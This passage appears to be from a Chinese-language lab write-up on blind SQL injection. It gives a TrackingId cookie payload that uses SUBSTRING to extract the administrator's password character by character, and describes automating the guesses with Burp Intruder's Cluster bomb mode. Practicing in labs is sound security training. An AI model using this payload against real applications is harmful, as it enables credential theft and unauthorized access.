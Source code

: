 测试每个位置的字符以确定其值

```
TrackingId=9qrmTSCzPnnQngsd' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

使用`Intruder`模块

选择位置和字符，使用Cluster bomb模式

![image-20250501220231049](./img/image-20250501220231049.png)



响应长度为`5500`的表示注入成功

![image-20250501220137949](./img/image-20250501220137949.png)

把密码整理出来
